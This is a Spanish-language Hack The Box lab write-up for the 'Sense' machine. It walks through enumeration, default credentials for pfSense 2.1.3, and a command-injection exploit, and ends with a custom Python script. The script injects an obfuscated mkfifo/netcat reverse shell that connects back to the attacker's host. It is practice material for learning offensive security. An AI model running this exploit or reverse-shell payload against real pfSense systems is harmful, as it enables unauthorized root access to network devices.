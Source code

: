 ```yaml
---
layout: post
title: HTB_Sense
date: 2023/07/10
slug: HTB_Sense
heroImage: /assets/machines.jpg
---
```


# Sense {-}

## Introduccion {-}

La maquina del dia se llama Sense.

El replay del live se puede ver aqui

[![S4vitaar Doctor maquina](https://img.youtube.com/vi/WeaLhmbatT0/0.jpg)](https://www.youtube.com/watch?v=WeaLhmbatT0)

Esta maquina hace parte de una sesion intensa y se puede ver a partir de 3:39:30.

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.60
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.60
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.60 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,443 10.10.10.60 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 80     | http          | Web, Fuzzing       |                      |
| 443    | https         | Web, Fuzzing       |                      |



### Analyzando la web {-}


#### Checkear la web {-}

Si entramos en la url `https://10.10.10.60`, vemos un panel de authentificacion de pfsense.
Teniendo esto en cuenta, miramos por internet si existen credenciales por defecto para este servicio.

Encontramos admin:pfsense pero no funcciona. Vamos a fuzzear la web

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,txt-php-html http://10.10.10.60/FUZZ.FUZ2Z
```

Aqui vemos routas como:

- stats.php
- help.php
- edit.php
- system.php
- exec.php
- system-users.txt

Los recursos php nos hace un redirect a la pagina de login y la routa system-users.txt hay un mensaje para crear el usuario rohit con el 
password por defecto de la compania. probamos

```bash
rohit:pfsense
```

Hemos podido entrar. Vemos la version del servicio pfsense que es la 2.1.3.
## Vulnerability Assessment {-}

### pfSense {-}


```bash
searchsploit pfsense 2.1.3
```

Vemos un exploit de typo Command Injection.

```bash
searchsploit -m 43560
mv 43560.py pfsense_exploit_rce.py
python3 pfsense_exploit_rce.py -h
```





## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

En el panel de ayuda vemos que nos pide nuestra ip y un puerto.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script

    ```bash
    python pfsense_exploit_rce.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 443 --username rohit --password pfsense
    ```

```bash
whoami
#Output
root
```

Oh my gaaaaadddddddd!!!!!!!!!

La idea aqui es crearnos nuestro proprio script en python

### Nuestro exploit {-}

```python
#!/usr/bin/python3

from pwn import *

import pdb
import urllib3
import html

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "https://10.10.10.60/index.php"
rce_url = "https://10.10.10.60/status_rrd_graph_img.php?database=queues;"
burpsuite = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():

    s = requests.session()
    urllib3.disable_warnings()
    s.verify = False
    r = s.get(main_url)

    csrfMagic = re.findall(r'__csrf_magic\' value="(.*?)"', r.text)[0]

    data_post = {
        '__csrf_magic': csrfMagic,
        'usernamefld': 'rohit',
        'passwordfld': 'pfsense',
        'login': 'Login'
    }

    r = s.post(main_url, data=data_post)

    p1.success("Authenticacion realizada exitosamente como el usuario rohit")

    p2 = log.progress("RCE")
    p2.status("Ejecutando comando a nivel de sistema")

    r = s.get(rce_url + '''ampersand=$(printf+\"\\46\");guion=$(printf+\"\\55\");rm+${HOME}tmp${HOME}f;mkfifo+${HOME}tmp${HOME}f;
    cat+${HOME}tmp${HOME}f|${HOME}bin${HOME}sh+${guion}i+2>${ampersand}1|nc+10.10.14.7+443+>${HOME}tmp${HOME}f''')
    
if __name__ == '__main__':

    p1 = log.progress("Authenticacion")
    p2 = log.progress("RCE")
    p1.status("Iniciando proceso de autenticacion")
    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        p2.failure("No se ha obtenido ninguna conexion")
    else:
        p2.success("Se ha obtenido una conexion")
        shell.interactive()
```